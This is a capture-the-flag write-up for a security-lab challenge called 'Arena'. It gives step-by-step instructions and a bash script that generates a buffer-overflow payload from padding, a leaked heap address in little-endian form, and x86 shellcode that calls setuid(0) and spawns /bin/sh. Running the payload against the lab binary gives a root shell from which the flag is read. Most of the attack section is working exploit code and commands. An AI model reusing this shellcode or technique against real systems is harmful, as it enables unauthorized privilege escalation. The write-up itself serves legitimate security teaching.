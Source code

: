
# CTF 6 - Arena

## SETUP

1. Deploy your challenge instance
1. Open ***2 Terminals*** and connect to your instance with:

    ``` bash
    ssh {unix_username}@syssec-lab.s3.eurecom.fr -p {port_number}
    ```

1. Create an empty weapon file

    ```bash
    touch weapons
    ```

1. Create a file called "gen_weapon"

    ```bash
    vi gen_weapons
    ```

1. Copy the following code into "gen_weapon"

    ```bash
    if [ $# -eq 0 ]; then
        echo "Usage: $0 <hex_address>"
        exit 1
    fi

    hex_address="$1"

    hex_address="${hex_address#0x}"

    hex_address=$(printf "%x\n" $((16#${hex_address} + 4)))

    if [ ${#hex_address} -eq 7 ]; then
        hex_address="0${hex_address}"
    fi


    little_endian=""
    for ((i = ${#hex_address} - 2; i >= 0; i -= 2)); do
        little_endian="${little_endian}\x${hex_address:i:2}"
    done

    padding_length=8186

    shellcode="\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"

    padding=$(printf 'A%.0s' $(seq "$padding_length"))

    exploit_string="98 99 $padding$little_endian$shellcode"

    echo -e "$exploit_string" > weapons
    ```

## ATTACK

1. In **Terminal 1** run the ***arena*** program

    ```bash
    ./arena/arena weapons
    ```

1. Copy paste the content of **[`player`](players)** in the terminal to create 1251 players.

    You will get the following message containing an ***address***.

    > Too many players... Kicking player '{name_of_the_player}' (0x923f470)  
    Give me a name (23 chars max): Give me a punchline (8191 chars max): Choose a strategy (1: cunning, 2: dumb, 3: blind):

    Then enter an invalide strategy or just press enter:

    > Unknown strategy. Aborting...

1. In **Terminal 2** run gen_weapons with the previous address

    ```bash
    bash gen_weapons 0x923f470
    ```

1. Then in **Terminal 1**:

    1. Press 1 to load weaponry

        ```bash
        What do you want to do? (1: load weaponry, 2: add new player, 3: fight, 4: quit) 1

        1 weapons loaded!
        ```

    1. Press 3 to start the fight. The figh might end without popping the shell. In this case press 3 again to start the fight until the shell appear

    Once you get the shell, you can cat the flag

    ```console
    # cat arena/flag
    ```
